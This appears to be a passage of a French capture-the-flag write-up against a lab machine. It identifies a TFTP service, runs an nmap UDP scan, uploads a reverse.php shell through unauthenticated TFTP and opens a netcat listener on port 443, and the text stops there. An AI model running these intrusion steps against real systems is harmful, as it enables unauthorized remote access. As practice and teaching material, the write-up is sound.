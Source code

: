 Le dernier utilisateur répertorié s'appelle **tftp** .

```tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin```

Une recherche rapide sur Google révèle que le protocole [TFTP](https://fr.wikipedia.org/wiki/Trivial_File_Transfer_Protocol) (Trivial File Transfer Protocol) est un protocole simple qui fournit une fonction de transfert de fichiers de base sans authentification de l'utilisateur. TFTP est destiné aux applications qui n'ont pas besoin des interactions sophistiquées fournies par le protocole de transfert de fichiers (FTP).
Il est également révélé que TFTP utilise le protocole UDP (User Datagram Protocol) pour communiquer. Celui-ci est défini comme un protocole de transport de données léger qui fonctionne au-dessus d'IP.

```text
UDP fournit un mécanisme pour détecter les données corrompues dans les paquets, mais il ne tente pas de résoudre les autres problèmes qui surviennent avec les paquets, tels que les paquets perdus ou en désordre.
Il est implémenté dans la couche de transport du modèle OSI, connu comme un protocole rapide mais non fiable, contrairement à TCP, qui est fiable mais plus lent qu'UDP.
Tout comme TCP contient des ports ouverts pour des protocoles tels que HTTP, FTP, SSH, etc.; UDP a des ports pour des protocoles qui fonctionnent pour UDP.
```

On va faire un scan UDP mais on va le limiter aux 100 premiers ports (on triche un peu car ça met une plombe...)

```bash
❯ nmap -sU -p1-100 10.129.102.34
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-19 01:53 CEST
Nmap scan report for 10.129.102.34
Host is up (0.028s latency).
Not shown: 98 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
69/udp open|filtered tftp

Nmap done: 1 IP address (1 host up) scanned in 106.34 seconds
```

En attendant on en profite pour installer **tftp**

```bash
sudo apt install tftp
```

Nous allons uploader un fichier reverse.php a fin d'établir une connection avec notre machine.

```bash
❯ tftp 10.129.102.34
tftp> put reverse.php 
Sent 75 bytes in 0.1 seconds
tftp> quit
```

Et on lance une écoute avec netcat : 

```bash
nc -nvlp 443
```
